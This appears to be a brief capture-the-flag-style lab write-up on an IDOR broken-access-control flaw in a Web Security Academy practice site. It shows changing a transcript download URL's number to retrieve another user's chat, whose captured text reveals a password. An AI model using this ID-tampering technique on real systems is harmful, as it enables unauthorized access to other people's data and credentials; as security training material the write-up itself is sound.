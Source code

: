 # BAC Vulnerability - IDOR


![****](/BAC-BrokenAccessControl/Screenshots/bac11.PNG)

The original URL!

```
https://accf1ff81ea5ceb1c00a084e00c80092.web-security-academy.net/download-transcript/3.txt
```

Changed to: 

```
https://accf1ff81ea5ceb1c00a084e00c80092.web-security-academy.net/download-transcript/1.txt
```

a download poppsup!!

```
Hal Pline: Takes one to know one
You: Ok so my password is yknr8spgxxf13cuizkk9. Is that right?
```
